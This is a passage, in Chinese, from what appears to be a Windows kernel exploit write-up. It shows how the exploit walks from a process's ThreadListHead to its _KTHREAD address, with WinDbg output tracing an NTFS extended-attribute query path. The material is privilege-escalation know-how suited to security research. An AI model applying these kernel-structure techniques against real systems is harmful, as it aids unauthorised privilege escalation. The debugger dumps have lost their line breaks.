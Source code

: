 存在一个名为 ThreadListHead 的成员，它是一个 _KTHREAD  
 结构的双向链表。  
  
如果漏洞利用程序只有一个线程，那么 Flink 将是一个指向 _KTHREAD  
 起始地址偏移量的指针：  
```
dx -id 0,0,ffffd186087b1300 -r1 (*((ntdll!_LIST_ENTRY *)0xffffd186087b1330))(*((ntdll!_LIST_ENTRY *)0xffffd186087b1330))                 [Type: _LIST_ENTRY]    [+0x000] Flink            : 0xffffd18606a54378 [Type: _LIST_ENTRY *]    [+0x008] Blink            : 0xffffd18608840378 [Type: _LIST_ENTRY *]
```  
  
由此我们可以使用 0x2F8 的偏移量（即 ThreadListEntry 的偏移量）计算出 _KTHREAD  
 的基地址。  
```
0xffffd18606a54378 - 0x2F8 = 0xffffd18606a54080
```  
  
我们可以验证这一点是否正确（并确认我们在前一篇文章中命中了断点）：  
```
0: kd> !thread 0xffffd18606a54080THREAD ffffd18606a54080  Cid 1da0.1da4  Teb: 000000ce177e0000 Win32Thread: 0000000000000000 RUNNING on processor 0IRP List:    ffffd18608002050: (0006,0430) Flags: 00060004  Mdl: 00000000Not impersonatingDeviceMap                 ffffba0cc30c6630Owning Process            ffffd186087b1300       Image:         amberzebra.exeAttached Process          N/A            Image:         N/AWait Start TickCount      2344           Ticks: 1 (0:00:00:00.015)Context Switch Count      149            IdealProcessor: 1             UserTime                  00:00:00.000KernelTime                00:00:00.015Win32 Start Address 0x00007ff6da2c305cStack Init ffffd0096cdc6c90 Current ffffd0096cdc6530Base ffffd0096cdc7000 Limit ffffd0096cdc1000 Call 0000000000000000Priority 8 BasePriority 8 PriorityDecrement 0 IoPriority 2 PagePriority 5Child-SP          RetAddr           : Args to Child                                                           : Call Siteffffd009`6cdc62a8 fffff805`5a99bc7a : 00000000`0000000000000000`000000d0 00000000`00000000 ffffba0c`00000000 : Ntfs!NtfsQueryEaUserEaListffffd009`6cdc62b0 fffff805`5a9fc8a6 : ffffd009`6cdc6560 ffffd186`08002050 ffffd186`08002300 ffffd186`06a54000 : Ntfs!NtfsCommonQueryEa+0x22affffd009`6cdc6410 fffff805`5a9fc600 : ffffd009`6cdc6560 ffffd186`08002050 ffffd186`08002050 ffffd009`6cdc7000 : Ntfs!NtfsFsdDispatchSwitch+0x286ffffd009`6cdc6540 fffff805`570d1f35 : ffffd009`6cdc68b0 fffff805`54704b46 ffffd009`6cdc7000 ffffd009`6cdc1000 : Ntfs!NtfsFsdDispatchWait+0x40ffffd009`6cdc67e0 fffff805`54706ccf : ffffd186`02802940 ffffd186`0000003000000000`0000000000000000`00000000 : nt!IofCallDriver+0x55ffffd009`6cdc6820 fffff805`547048d3 : ffffd009`6cdc68b0 00000000`0000000000000000`00000001 ffffd186`03074bc0 : FLTMGR!FltpLegacyProcessingAfterPreCallbacksCompleted+0x28fffffd009`6cdc6890 fffff805`570d1f35 : ffffd186`0800205000000000`000000c0 00000000`000000c8 00000000`000000a4 : FLTMGR!FltpDispatch+0xa3ffffd009`6cdc68f0 fffff805`574a6fb8 : ffffd186`0800205000000000`0000000000000000`00000000 fffff805`577b2094 : nt!IofCallDriver+0x55ffffd009`6cdc6930 fffff805`57455834 : 000000ce`00000000 ffffd009`6cdc6b80 ffffd186`084eb7b0 ffffd009`6cdc6b80 : nt!IopSynchronousServiceTail+0x1a8ffffd009`6cdc69d0 fffff805`572058b5 : ffffd186`06a54080 000000ce`178fdae8 000000ce`178feba0 00000000`000000a3 : nt!NtQueryEaFile+0x484ffffd009`6cdc6a90 00007fff`0bfae654 : 00007ff6`da2c14dd 00007ff6`da2c4490 00000000`000000a3 000000ce`178fbee8 : nt!KiSystemServiceCopyEnd+0x25 (TrapFrame @ ffffd009`6cdc6b00)000000ce`178fdac8 00007ff6`da2c14dd : 00007ff6`da2c4490 00000000`000000a3 000000ce`178fbee8 0000026e`edf509ba : ntdll!NtQueryEaFile+0x14000000ce`178fdad0 00007ff6`da2c4490 : 00000000`000000a3 000000ce`178fbee8 0000026e`edf509ba 00000000`00000000 : 0x00007ff6`da2c14dd000000ce`178fdad8 00000000`000000a3 : 000000ce`178fbee8 0000026e`edf509ba 00000000`00000000000000ce`178fdba0 : 0x00007ff6`da2c4490000000ce`178fdae0 000000ce`178fbee8 : 0000026e`edf509ba 00000000`00000000000000ce`178fdba0 000000ce`00000017 : 0xa3000000ce`178fdae8 0000026e`edf509ba : 00000000`00000000000000ce`178fdba0 000000ce`0000001700000000`00000000 : 0x000000ce`178fbee8000000ce`178fdaf0 00000000`00000000 : 000000ce`178fdba0 000000ce`0000001700000000`000000000000026e`00000001 : 0x0000026e`edf509ba
```  
  